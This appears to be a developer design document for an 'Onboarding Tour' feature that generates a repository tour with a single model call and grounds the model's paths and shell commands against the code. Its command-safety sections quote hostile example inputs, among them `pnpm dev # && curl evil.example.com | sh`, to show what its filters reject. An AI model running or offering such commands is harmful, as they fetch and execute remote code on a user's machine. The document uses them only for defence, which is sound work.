

# Onboarding Tour — one repository, one structured call, a tour that is true

A repo-level page that turns a repository's own index into a five-section onboarding tour —
architecture, critical paths, how to run it locally, a reading order, and first tasks — with one
structured model call per press of *Regenerate*. The result is content a person could otherwise
have written by reading the repository themselves, which is the whole risk of the feature: every
sentence, path, script and shell command in it comes from a model looking at an imported public
repository, and it is shown with a copy control. This file is the mechanism, in the order the code
runs it — not a tour of the screen. For what was specified and approved, see
[`specs/SPEC-03-onboarding-tour.md`](../specs/SPEC-03-onboarding-tour.md) and the depth pass
[`specs/SPEC-04-onboarding-tour-depth.md`](../specs/SPEC-04-onboarding-tour-depth.md); for how it
was built, [`plans/12`](../plans/12-onboarding-tour-server-generation.md),
[`plans/13`](../plans/13-onboarding-tour-server-api.md),
[`plans/14`](../plans/14-onboarding-tour-client.md) and
[`plans/15`](../plans/15-onboarding-tour-depth.md) — read as intent, not as a description of what
shipped; the contract grew past what plan 12 states (§ *Grounding*, below), and plan 15 named
numbers that its own measurement then moved (§ *Fitting the budget*, below).

Generation server code lives in `server/src/modules/onboarding/` — `constants.ts`, `sizing.ts`,
`generation-types.ts`, `packages.ts`, `gather-executor.ts`, `prompt.ts`, `helpers.ts`,
`generate-executor.ts`. HTTP and persistence live beside it in the same module —
`types.ts`, `status.ts`, `repository.ts`, `service.ts`, `routes.ts`. The wire contract is
`server/src/vendor/shared/contracts/knowledge.ts` (`Onboarding`, `OnboardingDraft` — the content
and what one generation produced) and `contracts/onboarding-api.ts` (`OnboardingRecord`,
`OnboardingPage` — the two things the routes answer with), mirrored unmodified into
`client/src/vendor/shared/`. The screen is `client/src/app/repos/[repoId]/onboarding/`, reading
through `client/src/lib/hooks/onboarding.ts`.

## The pipeline, end to end

Reading (`GET /repos/:id/onboarding`) is a different, unconditional path: it never reaches this
diagram at all. `OnboardingContainer` — the port `OnboardingService` is built against — declares
only `repoIntel.getIndexState`, so a read cannot even *express* a model call
(`types.ts:96-112`). A repository whose index has since failed still serves the tour it has;
only the *Regenerate* button is refused, and the refusal travels beside the tour rather than in
place of it (`service.ts:49-51`).

## The gate and the lock

`refusalFor` (`status.ts:35-61`) is one table, read on every GET as `generate_blocked` and
enforced again on every POST before anything is spent. `IndexStatus` has no "building" member, so
`index_missing` folds three causes that look different from the inside — no row at all, the
feature flag off, a clone that has not finished — into one honest sentence: "there is nothing yet,"
never "try again shortly." `language_unsupported` is a completed pass that indexed zero files,
which is a fact about the repository's languages rather than about the indexer, and `partial` with
files still generates — what the pass skipped travels to the reader as `files_skipped` instead of
blocking.

The single-flight (`inFlight` in `service.ts:69`) is keyed on `repoId` alone and lives on the
`OnboardingService` instance, which is why `platform/container.ts` memoises that instance rather
than letting a route construct one. A second instance gets its own empty map, and the guarantee
that a second caller joins the first generation instead of paying for a second one stops holding
with every architecture gate still green — nothing in the type system can see that a lock is only
a lock while exactly one instance exists.

## Gathering — five inputs and nothing else

`OnboardingGatherExecutor.gather` (`gather-executor.ts:74-121`) reads exactly what a generation may
see, each through a port, each recorded with the path it came from: the cached repo-map skeleton
(`getRepoMap`, at the *same* token budget the indexing pipeline rendered it at — 1500, not a
number this feature is free to raise, since `getRepoMap` is a cache lookup on the exact triple
`(repoId, sha, budget)` and any other number matches no row at all), the package walk, the
critical-path chains (§ *Twenty chains*, below), twenty top-ranked file samples, the
`.env.example`/`.env.sample` beside each shown package and at the root, the first compose file
Docker Compose itself would resolve, and `README.md`/`AGENTS.md`. A missing *file* is normal and
never an error — every read is `.catch(() => null)`; a missing *clone* is left to throw, because an
empty scan would store a complete-looking tour of five empty sections with no explanation anywhere.

The package walk asks `GitClient.listFiles` for the *name* `package.json` (not the `.json`
extension — that returns every fixture in the repository, measured against this repository's own
five manifests: by name, all five; by extension, twelve files and one of them a manifest) at depth
2, with a match ceiling of 64 — deliberately larger than the twelve blocks ever shown
(`MAX_PACKAGES`). The two ceilings do two different jobs. The **port** orders its matches
shallowest-first (`adapters/git/order.ts`, `byDepthThenPath`) purely so a repository with dozens of
deep manifests does not spend its match ceiling before reaching the root — sorted by path alone, a
ceiling of 64 against 65 `apps/aNNN/package.json` drops the root, because `apps/` sorts before
`package.json`. `selectPackages` (`packages.ts:78-84`) then re-orders the *survivors* itself, root
first and the rest by path — the order a reader is actually shown in — because the two orderings
answer different questions: which matches the ceiling should keep, and which block a reader sees
first.

## Twenty chains, and why the best-ranked file is the worst root

`getCriticalPaths` (`repo-intel/service.ts:698-753`) is the whole supply behind two sections: the
flows the critical-paths card draws, and the ground set the reading order is chosen from. It
supplies **twenty** chains of up to `1 + BFS_DEPTH` = **five** files each — `CRITICAL_PATH_CHAINS`
and `BFS_DEPTH` in `repo-intel/constants.ts`, both changed on 2026-08-18 from five roots and two
hops.

The interesting half is not the ceiling, it is the seeding rule, and it is written the way it is
because raising the old constant would not have worked. **Rank rewards being imported, and the walk
follows importer → imported**, so the highest-ranked file in a repository is typically a leaf that
imports nothing at all — a perfect chain root by rank and a dead end by direction. Measured on this
repository's own clone (`Holubinka/dev-digest`, 656 ranked files, 1113 edges, 2026-08-18): seeding
"the top twenty ranked files" the way the old code seeded the top five yields **seven** chains,
because **thirteen of those twenty have no out-edge whatsoever** and die immediately at
`chain.length < 2`.

So the rule counts what it **keeps**, never what it tries: walk the rank list in order, skip a
candidate that imports nothing, skip one `isJunkPath` rejects, and stop at the twentieth chain
collected. The junk filter is new here and it is not decoration — twenty chains reach far enough
down the rank list to meet the tests, `.d.ts` declarations, migrations, fixtures and config files
that `isJunkPath` has always kept out of the samples, and five roots never got near.

Widening it cost no database work, which is why it could be a constant change rather than a
project: both reads were already unbounded (`repository.ts` `getEdges`, and
`getRankedPaths(repoId, 100_000)`), and the ceiling is an in-memory stop **after** both have
loaded. A test pins that — `getEdges` once, `getRankedPaths` once, at `100_000`
(`test/repo-intel-critical-paths.test.ts`).

The display ceiling had to move with the supply: `MAX_FLOWS` is now 20, up from 4. A ceiling below
the supply would discard flows that had passed every membership test — the one drop this feature
would have no counter for, because it is not a claim that failed. The two numbers **cannot see each
other**: `no-cross-module` forbids `modules/onboarding` from importing `modules/repo-intel`,
`import type` included, so the agreement is held by an assertion in
`test/onboarding-generate.test.ts` (`MAX_FLOWS >= CRITICAL_PATH_CHAINS`) rather than by an import —
the same precedent `REPO_MAP_TOKEN_BUDGET` set. On the 2026-08-19 run: twenty chains supplied,
longest five files, fourteen flows survived grounding.

## Fitting the budget, then one call

**The budget and the clock are functions of the repository's size, not constants.** `sizing.ts`
holds both: `budgetForIndex(files_indexed)` ramps linearly from `ONBOARDING_BUDGET_FLOOR` = 24 000
tokens at zero indexed files to `ONBOARDING_BUDGET_CEILING` = 50 000 at
`ONBOARDING_BUDGET_RAMP_FILES` = 2 000 files, and is flat above that; `timeoutForBudget(budget)` is
that same ramp expressed over the budget, from 180 000 ms at the floor to 300 000 ms at the
ceiling. This repository, at **656 indexed files, is funded at 32 528 tokens and clocked at
219 360 ms**. Both are clamped at both ends, in the functions rather than at their call sites — the
clock must never answer above five minutes whatever budget it is handed.

Three things about that pair are worth knowing before changing either. **The ramp saturates at
2 000 files, not at the index's own ceiling**, because the *request* saturates long before the
index does: the documents stop at `MAX_PACKAGES`, the samples at `SAMPLE_FILE_COUNT`, the skeleton
is bounded in tokens by `REPO_MAP_TOKEN_BUDGET` and the chains by `CRITICAL_PATH_CHAINS`, so a ramp
tied to `MAX_INDEXED_FILES` would be calibrated on a different quantity than the one that grows.
**A bigger budget buys more of what is already selected and never more selection** — no sample
count, per-file cap or per-document cap moves with it, which is what keeps it a bound on the walk
rather than a second dial on the gather. And **the two live in one file because the clock is a
function of the budget**: written apart they drift, a budget raised on its own times out precisely
on the repositories it was raised for, and a timeout is a generation the provider has already been
paid for and whose answer is thrown away.

`files_indexed` reaches the generator **as a parameter**, and that is a seam rather than a
shortcut: `OnboardingGenerationContainer` deliberately declares no way to read the index at all, so
the number comes from the gate's own read in `service.ts` — the same object that stamps
`index_state` on the record, which is why the budget and the `files_indexed` it was computed from
describe one moment rather than two. A generation that misses its clock writes **no row** (the
previously saved tour stands untouched), so the only record it leaves is one `log.warn` carrying
`budget`, `timeoutMs`, `durationMs` and `filesIndexed` — the numbers that say whether the clock was
the wrong size.

`fitToBudget` (`generate-executor.ts:306-397`) measures every candidate block **already fenced and
escaped**, because measuring before escaping under-counts: `wrapUntrusted` grows content by up to
8%, and a budget checked on the unescaped text once shipped 9202 tokens against a stated 8000. Each
sampled file, each project document **and each chain** is offered to the walk on its own rather
than as one block, so the twentieth sample not fitting still ships the first nineteen, and twenty
chains offered as one block would be twenty chains lost together with every input queued behind
them. That costs something and the cost is known: a per-chain block repeats its heading and fence,
roughly 20 tokens against a chain's own ~50, so twenty chains cost ≈1 400 rather than the ≈1 000 a
single block would. A block that does not fit whole is shortened by dropping fenced items from its
tail and never by a generic string cut — a plain truncation on a
`<untrusted source="…">…</untrusted>` wrapper can remove the closing tag and leave the rest of the
message reading as trusted prose, which is exactly what `truncateBlockToBudget` exists to prevent.

The priority the walk drops in reverse is `repo_map → package_configs → critical_paths →
project_docs → file_samples`. **The documents outranking the samples is a decision of 2026-08-18**,
and it reverses the order the spec originally fixed: measured on a real clone, twenty samples at
`MAX_FILE_CHARS` took 17 964 of ~22 000 block tokens, so the documents — last, and offered whole —
were `dropped` on *every* generation and the tour described a repository whose own README it had
never read.

The last full measurement, `Holubinka/dev-digest` on 2026-08-19: 656 files indexed, budget 32 528,
system prompt 2 610 tokens, assembled input 30 879 counted against that budget, 80 702 ms of an
allowed 219 360, $0.0075726 on `deepseek/deepseek-v4-flash`. Every input shipped —
`critical_paths` 20 of 20 chains, `project_docs` 7 of 7 documents with 5 shortened by
`MAX_DOC_CHARS`, `file_samples` 19 of 19 files — and the answer carried 14 flows and 3 tasks. A
shortened document is not a dropped one and the record keeps them apart: it *did* reach the model
with its tail gone, so a claim the tour makes about it may rest on text nobody sent.

The one call runs at `temperature: 0`, with reasoning turned off (a description of a fact list
does not need it, and reasoning tokens bill at the output rate) and exactly one schema repair —
`ONBOARDING_MAX_RETRIES = 1` — because a second automatic retry once turned a review into a
half-hour `running` row.

## Grounding — the idea the whole feature rests on

The model proposes a section body, a diagram, a set of paths, commands and variable names.
`groundOnboarding` (`helpers.ts:1101-1142`) is the only code that decides what of that is true, and
its rule is uniform: **a claim survives only when something outside the answer confirms it.**
Nothing is repaired or normalised toward the nearest legal value — an unconfirmable claim is
dropped and counted, never guessed into something safe, because normalising is how a sixth section
arrives wearing the name of a fifth.

What "confirms" means is different per field, and each is a check against code-authored fact
rather than against the model's own text:

- a **path** must exist in the clone — proven either by having been read during gather, or by a
  bounded existence probe (≤200 per generation, one byte each) run afterward. Two hundred and not
  the 120 it started at, and the number is anchored on the supply rather than on how many claims
  look reasonable: the chains alone can now carry `CRITICAL_PATH_CHAINS` × (1 + `BFS_DEPTH`) = 100
  distinct paths, and a task may name a file per step. A ceiling below what a *grounded* answer can
  legitimately contain does not merely truncate — it turns real files into `unknown_path` and
  corrupts the counters this feature's evidence is read from;
- a **script** must be a key of that package's own `package.json`, and a **manager** must be the
  one that package's own lock file dictates (never a neighbour's, never a guess when two lock
  files disagree — `AGENTS.md` says "do not mix" in one line, and a wrong manager rewrites a lock
  file someone was only trying to read);
- an **install or run command** is checked token by token, not by prefix: `runsScript`
  (`helpers.ts:708-714`) tests the *whole* sequence, because a check that only asked "starts with
  the manager, mentions the script somewhere" once let `pnpm dlx evil-cli dev` and
  `pnpm --dir /elsewhere dev` both through;
- a **setup command** takes one of three shapes, and `setupCommandIsAuthorised`
  (`helpers.ts:873-908`) asks a different question of each. Two of them are checked against the
  *text* of the file named in `source_path`, not merely its existence — a
  `docker compose up -d postgres redis` is grounded only when the compose file actually declares a
  `redis` service, which this repository's own compose file does not, so that half of the mockup's
  own example command is dropped here, on purpose. The third, added 2026-08-18, is a script the
  repository committed — `./<path>` in one token, or `bash <path>` / `sh <path>` in two — and
  there existence *is* the whole question: `source_path` must be that script and must be in
  `verified`, exactly as a `cp`'s source must. Nothing may follow the path, so the only thing the
  model chooses is which committed file to name. This repository's `./scripts/dev.sh` is the line
  the shape exists for;
- a **first task's step** is grounded in two independent halves, and only one of them is a check of
  its own. A step's `path` goes through the *same* existence test as every other path in the tour —
  and a step whose path fails **keeps its text and loses only the link**, because "add a guard to
  the error handler" is a useful instruction without a clickable file, while `unknown_path` still
  counts the claim that did not hold. A step's `command`, by contrast, **is not grounded again at
  all**: it must be verbatim a member of the set the "How to run" section already survived with
  (`groundedCommands`, `helpers.ts:589-600`), or it is removed from the step and counted as
  `unknown_script`. Verbatim means verbatim — `pnpm  dev` with two spaces is not `pnpm dev` and is
  dropped, because normalising it would be repairing a string somebody is about to paste into a
  shell. Nothing scans a step's prose for path-shaped tokens, which is what makes "a path-shaped
  string in the prose stays plain text" true by construction rather than by a second path
  vocabulary that would drift from `collectBodyPaths`;
- an **env var** is kept only when the cited config file's text actually declares that key.

**The order inside `groundOnboarding` is load-bearing, and it is the security detail of this
change.** It runs `groundRun` → `groundSetupCommands` → `groundTasks`, because the set a task
step's command must belong to is defined as *what those two kept*, not as what the model wrote.
Grounded first, a task would be checked against an empty set and every step command would be
dropped for a reason that was never the model's; grounded against the response instead of against
the result, a command the "How to run" section itself rejected would re-enter the tour through a
task step — the one door that would let a rejected command back in wearing different clothes.

Nothing upstream bounds the model's output length or count, deliberately: a Zod `.max()` on any of
these arrays renders as `maxItems`/`maximum` in the JSON Schema sent to the provider, and
Anthropic's structured-output subset rejects a schema stating any bound at all. Every cap this
feature has — four links per section, twenty flows of six steps, six first tasks of six steps, six
commands per package, twelve environment variables, and the rest — is a plain constant in
`constants.ts`, applied *after* the parse, in grounding. What survives is counted in exactly five
reasons (`OnboardingDropped`: `unknown_path`, `unknown_script`, `manager_mismatch`,
`unknown_complexity`, `unknown_section`) plus two more that exist only in the audit log, never on
the stored record (`off_chain` — a real path outside the set a claim was entitled to draw from;
`unknown_env`) — a fixed vocabulary two sibling slices already read by name, so a sixth reason is
not available without renaming the contract.

This is also where the contract outgrew what plan 12 states: `OnboardingSetupCommand` (`cp`,
`docker compose up`) does not appear in that plan at all. The original shape modelled every command
as `{ script, command, why }`, which can only ever express `<manager> run <script>` — a real key of
a real manifest. `cp .env.example .env` and `docker compose up -d postgres` have no manifest key,
so on the original shape they were never *droppable*, they were unwritable: the mockup draws both,
and without this sibling shape a tour of this very repository could emit `pnpm install` and
`pnpm dev` and nothing that creates a `.env` or starts Postgres. `setup_commands` sits beside
`packages` rather than inside any one package's block, because a clone is prepared once and then
each package is run — a block that repeated the setup per package would ask a reader to copy the
same `.env` five times.

## Why a command carries no comment

`isSafeCommand` (`helpers.ts:275-277`) drops a command whole the moment it contains a character
outside `[A-Za-z0-9._:@/=+-]` — no `;`, no `&&`, no `|`, no backtick, no `#`. The mockup draws
`cp .env.example .env # add OPENAI + STRIPE keys`, and this feature does not render that line —
a **named, human decision (2026-08-18)**, not an oversight, and it was tried the other way first.
Two facts made it come back out. `#` is not a comment character in an *interactive* zsh — this
project's own contributors' default shell — because `INTERACTIVE_COMMENTS` is off there by
default; a `#` is then an ordinary word, and `pnpm dev # && curl evil.example.com | sh` pasted into
that shell runs the `curl`. And any comment carrying the tour's own prose would have to carry
Ukrainian punctuation — commas, parentheses, apostrophes — and in an interactive zsh `(` opens a
subshell and `'` opens a quote: the characters the prose needs and the characters that make a paste
dangerous turn out to be the same characters, so no filter can keep one and refuse the other. The
explanation lives instead in the command's own `why` field, rendered beside the copy control, in
the interface font, and never inside the `<code>` a reader copies (`CommandRow.tsx:1-16`).

## The re-check after generation

The gate answers *once*, before the model call, against the index state at that moment. Nothing
holds that state still while the call runs — up to the clock its budget bought, 180 seconds at the
floor and 300 at the ceiling — so `OnboardingService.run` (`service.ts:149-234`) reads it again
after the generator returns and compares
(`indexMoved`, `status.ts:97-100`). If it moved, the draft is discarded and the request answers
`409 onboarding_index_changed`; the previously saved tour is untouched, and nothing new is written.

The comparison is `updated_at`, not the sha alone, and that is load-bearing: a **resync landing on
the same HEAD** rewrites `repo_index_state` with the sha it already had, so a sha-only comparison
would call a generation that ran against an emptied index perfectly fresh. A reindex deletes every
symbol and reference for the repository *before* it writes its new state row — so a generation
whose window overlapped that deletion built a tour from data that was actively being erased as it
was read, and the sha it stamped would look identical to the sha before the reindex started. One
discarded generation is the accepted price for closing that window.

## Two contracts, one shape each way

`Onboarding` (`knowledge.ts:396-428`) is the content a reader sees — five sections always present
in enum order (`architecture`, `critical_paths`, `how_to_run`, `reading_path`, `first_tasks`), each
either `ready` or `empty` with a reason, never omitted so the layout never collapses around a
missing input. `OnboardingDraft` (`knowledge.ts:484-519`) extends it with what one generation cost
and dropped — the audit numbers, the per-input status, the token counts, the provider and model.
Since 2026-08-18 the evidence half is wide enough to re-derive a decision from: `budget`,
`system_tokens` apart from `input_tokens_counted` (only one of the two is steerable — the walk
moves the second, editing the prompt file moves the first, and summed together they would hide
which grew), `duration_ms` around the call, and `chains_supplied` / `longest_chain_files` — the
reach of the *supply*, which is what a thin critical-paths section has to be read against; which of
those chains the budget then refused is in `inputs[].omitted`. The `files_indexed` that `budget` was
computed from is readable beside it on `index_state`, one level up on the record, because the draft
carries no stamp of the index at all. The draft still carries **no** stamp of its own: it times the call but
does not know *when* it ran or what index it ran against, because the generation pipeline neither
reads the index state nor writes anything (`knowledge.ts:435-442`). `OnboardingRecord`
(`onboarding-api.ts:116-132`) is `OnboardingDraft.extend({ index_state, generated_at })`,
collision-free by construction because the draft owns neither key — the persisting slice, not the
generation slice, decides what a stamp means. `OnboardingPage` is the GET envelope:
`{ tour, index, stale, generate_blocked }`, the *current* index read fresh on every request beside
whatever tour is stored.

Every array and count on every one of these shapes carries a `.default()` — `0`, `[]`, never a
plausible-looking value. The record is stored in a `jsonb` column and re-parsed on every read
(`repository.ts:61-77`); without a default, the day a field is *added* to the contract, every row
written before that day stops parsing, and `OnboardingRepository.get` degrades that to `null` —
which reads to a caller as "nothing generated yet, press Generate" about a tour that is whole in
the database and was already paid for.

Every field the depth pass added takes one, which is the whole reason a tour generated before
2026-08-18 still parses and still draws: `steps: []`, `chains_supplied: 0`, `system_tokens: 0`,
`duration_ms: 0`. `impact` and `verification` on a task take `''`, and that looks like the case the
rule refuses but is not — the refusal is about a field the generation was *asked* for and failed to
produce, and those two were never asked for at all in a tour written earlier. `''` is the value,
"this task states nothing about what it touches", and the window omits an empty one rather than
drawing a heading over nothing.

## Bilingual, on purpose

`TOUR_LANGUAGE` (`constants.ts:27`) is `'Ukrainian'`, a constant, never a request parameter and
never read from the client's locale. The interface around the tour — headings, section labels,
buttons — comes from `messages/en/onboarding.json` and stays English regardless. A locale reaching
into generation would have to enter the cache key too (`onboardingQueryKey` is keyed on `repoId`
alone, `hooks/onboarding.ts:29-32`), and two readers of one repository would then pay for two model
calls to read the same content in two languages.

## What the client reads and never recomputes

`stale` (`OnboardingPage.stale`) is a boolean read straight off the envelope and never derived on
the client — `IndexNotes.tsx` states this as its own constraint. The server's rule
(`isStale`, `status.ts:75-79`) carries an empty-sha guard the client has no way to reproduce: with
no index row at all, `getIndexState` synthesises `lastIndexedSha: ''`, and a naive client-side
`!==` would report a perfectly good, never-regenerated tour as stale the moment that row went
missing. Seeing `stale: true` starts nothing on its own — regenerating is always the explicit press
of a button, never a side effect of opening the page.

`useGenerateOnboardingTour` (`hooks/onboarding.ts:70-79`) writes its response straight into the
query cache with `setQueryData`, not `invalidateQueries` — an invalidation would spend a second
round trip re-reading the row the mutation just returned, emptying the page for its duration — and
sets `stale: false` alongside it, since the write's own re-check (above) already proved the index
state it stamped was still current.

## Package rendering: two shapes, one rule

A repository with exactly one package renders a flat, numbered command list, matching the mockup
exactly — a single package's name distinguishes nothing, so printing it would be noise. A
repository with several — DevDigest itself has five — renders one named block per package, because
`pnpm install` with no name above it does not say which of five packages it installs
(`RunLocallySection.tsx:1-24`, **human decision, 2026-08-18** — a deliberate departure from the
mockup's own single-package drawing, and from `AC-19`'s original wording, both narrower than the
case DevDigest itself is). Setup commands are always first, in both shapes, because they are
preconditions for the whole clone rather than a script of any one package.

The "N more packages" note reads `package_scan.found − packages.length`, not
`found − shown`. `shown` is only where the *server-side* ceiling of twelve cut; the model can then
choose to write a `run` block for only some of those twelve, and grounding drops more of what it
did write as `unknown_path`. A fixture where these three numbers happened to agree tested nothing
about this distinction for eleven tests before it was caught (`client/INSIGHTS.md:702-724`).

## The task window: already generated, opened by a URL

Activating a first task's title opens a window over its steps, what the change touches and how the
reader will see it is done. **It asks the server for nothing and costs no model call**: those
fields were written by the same single call that wrote everything else, and the click only opens
what is already stored.

That was a decision with a rejected alternative, and the argument against the alternative is a
number. A second call *on click* would have to see the same input again to describe a task in this
repository's terms — the skeleton, the configs, the chains, the documents, the samples — which was
measured at **23 481 tokens per click against roughly 200 tokens of instructions once per
generation**. "Pay only for what is opened" stops paying on the second click. Two smaller reasons
back it up: a click that costs money is already refused elsewhere in this feature (generating on
page open was rejected because "everyone who mis-clicked a menu item spent the workspace's money",
and a task card is easier to click than a menu item), and a window that fills in 20-60 seconds is a
window the reader has already closed. The price of the accepted decision, stated rather than
hidden: every generation pays for details nobody may open, on the order of 150-200 output tokens
per task in Ukrainian.

That price is also why `MAX_TASKS` went from twelve to **six** (2026-08-18), and the six changed
what the screen owes: **the number stored is now the number shown**, so the disclosure that used to
hide tasks past the sixth is gone rather than merely unused. A tour saved before the change may
still hold twelve, and all twelve are drawn — hiding six with no way to say so is the one outcome
both decisions refuse.

**The open task lives in the URL and nowhere else.** `?task=<path>` is derived during render and
never copied into state, so the two can never disagree (`FirstTasksSection.tsx:65-66`) — the same
call this page already made for the section its rail highlights, which lives in the fragment. It is
keyed on the task's **path, not its index**: after a regeneration index 3 still exists and would
silently open a different task, while a path that is gone is observable — the tour draws with no
window and no error. Navigation is `router.replace`,
never `push`, because one history entry per opened card fills the back button with places nobody
asked to go, and `scroll: false` keeps the reader where the card was. The fragment is carried
across by hand: the rail and *Share link* both live in `window.location.hash`, and a URL rebuilt
from the pathname and the query alone drops it silently.

The dialog's keyboard behaviour is new code, because nothing in this repository had it:
`vendor/ui/kit/Modal.tsx` sets `role="dialog" aria-modal="true"` and stops — no Esc, no trap, no
focus restore, and no way to give the window an accessible name — and it is vendored, so it cannot
be taught any of them here. `useFocusTrap` (`TaskDetailDialog/hooks/useFocusTrap.ts`) puts focus on
the window on open, closes on Esc, wraps Tab at the two edges of the ring only — the browser
already moves focus correctly in the middle, and taking Tab over entirely would mean
re-implementing tab order — and restores focus to the control that opened it. Three details in
there each exist for a failure: the listener is on the **container, never on `window`**, so a
reader typing in the search box does not close a dialog they are not in; `onClose` is read through
a ref so the effect runs once per open rather than re-recording `document.activeElement` (by then
the dialog itself) on every parent render; and the restore is guarded by `isConnected`, because the
opener is genuinely gone in two cases — the tour unmounted, and the window was opened from a URL,
where the recorded element is `<body>`. The accessible name is the task's own title, through
`aria-labelledby` rather than `aria-label`, so it names the task rather than the kind of element.

A task carrying no steps offers **no control to open anything** — a card with nothing to show does
not pretend otherwise — and the window draws only fields of `OnboardingTask`, so a value absent
from the tour contract cannot appear in it, not because someone remembered the rule but because it
was never passed in. Nothing in the window re-checks the server's grounding: a step's path arrived
proven and a step's command arrived verbatim from the grounded set, exactly as `stale` arrives
decided (§ *What the client reads and never recomputes*). A command is drawn by the same
`CommandRow` used everywhere else — copyable, never runnable.

## Deviations from the mockup — named, not owed

- **No `#` comment inside a command.** § *Why a command carries no comment*, above — a shell
  safety decision, not an unfinished feature.
- **One package → a flat list; several → named blocks.** § *Package rendering*, above — the
  mockup only ever had to draw the one-package case.
- **No invented numbers.** "`used by 14 routes`", "`12,450 files`" and similar prose counts from
  the mockup are refused outright: the system prompt states a rule with its own header (
  `prompts/onboarding.system.md`, § *Numbers* — "Write no quantity about this repository … a
  number you write is one nobody checked"), and the repository never extended `repo-intel` to
  produce such a count for the tour to cite (`N7`/`D21` in the spec). Where a count *is* shown —
  files indexed, packages found, samples truncated — it is computed by code and printed beside the
  model's prose, never inside it.
- **The "What went into this tour" block.** The mockup does not draw it; the spec requires it
  (`AC-65`). It lists the five input categories and what happened to each — included, truncated,
  dropped, or never present — at the lowest visual weight on the page, because a tour built from
  four of five inputs is a materially different document from one built from all five, and that
  difference is invisible in the prose itself.
- **No clickable map of the system's parts.** Ordered on 2026-08-18, specified, measured, and
  withdrawn the same day — a decision with a date (`SPEC-04 § D23`), not a debt someone forgot to
  pay. The measurement is the reason: of the six connections the architecture diagram names, a map
  derived from imports reproduces exactly one, `server → reviewer-core`. `client → server`,
  `mcp → server` and `e2e → client` are HTTP, and HTTP is not an import; `server → Postgres` and
  `reviewer-core → LLM` are not packages at all, so no node for them can exist. Three of the six
  nodes — `client`, `e2e`, `mcp` — would read "no connections", which is the truth about the import
  graph and a lie about the system. Enrichment was checked rather than assumed: tsconfig `paths`
  yield the same two edges, no `package.json` declares a cross-package dependency, and the one
  heuristic left over gets this repository wrong (`server/.env.example` declares both `API_PORT`
  and `WEB_PORT`, so "the port belongs to whoever's config declares it" hands the server the
  client's port). What the withdrawal costs is named too: a newcomer still cannot click a part of
  the system, and the diagram's nodes stay unclickable — because **the diagram's own edges were
  written by the model and nobody grounded them**, which is why they were forbidden to be
  clickable in the first place.
- **The documents outrank the file samples.** A decision of 2026-08-18 (§ *Fitting the budget*),
  reversing the priority the spec first fixed, on a measurement rather than a preference.

## Where to look

| You need to | Start at |
|---|---|
| Change how big a generation may be, or how long it may take | `modules/onboarding/sizing.ts` — `budgetForIndex` and `timeoutForBudget`, both pure, both clamped in the function. Change one without the other and you have raised a budget that times out on exactly the repositories it was raised for; the four ends of the two ramps are `ONBOARDING_BUDGET_FLOOR`/`_CEILING`/`_RAMP_FILES` and `ONBOARDING_TIMEOUT_FLOOR_MS`/`_CEILING_MS` in `constants.ts` |
| Change a generation constant (sample count, a cap) | `modules/onboarding/constants.ts` — most are anchored to a supply (a criterion, or another module's own ceiling); the comment on each says which. A bigger budget raises none of them, by design |
| Change how many chains the flows and the reading order are drawn from | `modules/repo-intel/service.ts` `getCriticalPaths`, with `CRITICAL_PATH_CHAINS` and `BFS_DEPTH` in that module's `constants.ts`. `MAX_FLOWS` may never fall below the supply, and no import can see both — `test/onboarding-generate.test.ts` is what holds them in agreement |
| Change what a claim is grounded against | `modules/onboarding/helpers.ts` — one function per field kind, `groundOnboarding` is the single entry point |
| Debug a task step whose command disappeared | `groundedCommands` in `helpers.ts` — a step's command must be verbatim one that "How to run" kept, which is why `groundOnboarding` runs `run` → `setup` → `tasks` and not in the order the file happens to be written in |
| Change what the model is shown, or in what priority | `modules/onboarding/prompt.ts` `buildInputBlocks` and `generate-executor.ts` `buildCandidates`, which must agree with the `OnboardingInputId` order — the record's rows are built from it. The order is `repo_map → package_configs → critical_paths → project_docs → file_samples`: D13 put the documents last, and a decision of 2026-08-18 moved them above the samples after every real generation dropped them whole |
| Change the refusal table or the staleness rule | `modules/onboarding/status.ts` — pure functions, no I/O, the one place both are stated |
| Debug why *Regenerate* hung instead of refusing | The single-flight, `service.ts:69` — a caller joins whatever generation was already running, whose gate answered minutes earlier |
| Debug why a section is `empty` | `emptyReason` in `helpers.ts` — prefers naming a missing *input* over "the model said nothing" |
| Add a field to the tour | `Onboarding` / `OnboardingDraft` in `knowledge.ts` — every array and count needs its own `.default()`, or every row written before the change stops parsing |
| Change the client's package-list threshold or copy | `RunLocallySection.tsx` (`flat = packages.length <= 1`) and `messages/en/onboarding.json` |
| Change what the task window shows, or how it opens | `FirstTasksSection.tsx` owns the `?task=` state and the card's control; `TaskDetailDialog/` draws the window, and `hooks/useFocusTrap.ts` owns Esc, the tab ring and the focus restore |
